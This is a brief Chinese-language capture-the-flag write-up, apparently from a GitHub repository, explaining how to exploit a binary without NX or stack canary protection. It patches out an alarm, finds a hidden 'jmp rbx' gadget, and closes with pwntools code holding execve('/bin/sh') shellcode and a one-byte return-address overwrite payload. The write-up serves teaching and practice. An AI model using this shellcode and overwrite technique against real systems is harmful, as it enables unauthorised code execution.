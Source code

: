 # shellcode学妹想要玩  
![](./pics/chc.png)  
没开NX和canary，由题目名字提示得知需要写shellcode。  
由于这题设置的alarm clock触发时间很短，可以用vim打开二进制文件，把里面alarm字符串改成isnan，之后再打开就不会被alarm恶心了。  
![](./pics/remove_alarm.png)  
ida查看  
![](./pics/ida1.png)  
![](./pics/ida2.png)  
buf输入了0x39个字符，正好可以覆盖完rbp后的一个字符，劫持程序跑到其他位置    
![](./pics/stack.png)  
那当然要看看只改最后一字节的情况下可以指向哪些汇编地址啦。  
![](./pics/pic.png)
打开汇编一看发现不得了的东西，汇编里有一条路径可以jmp rbx，但是在反编译出的c代码中没有显示出来，这也说明还是得看看汇编，不能盲从ida。 
测试发现输入完成后rbx正好指向输入字符串的位置，那再好不过，只需要写shellcode，补足0x38字节，最后一字节将rbp后的返回地址改成jmp rbx就行了。  
要注意的是shellcode得压缩到0x38字节以内。  
```
shellcode=asm('push 0x68;mov rax ,0x68732f6e69622f;push rax;mov rdi,rsp;xor rsi, rsi;xor rdx, rdx;xor rax,rax;add rax,0x3b;syscall')
p.recvuntil(b'Do u know what\'s is it?\n')
payload=shellcode.ljust(0x38,b'a')+b'\x2a'
```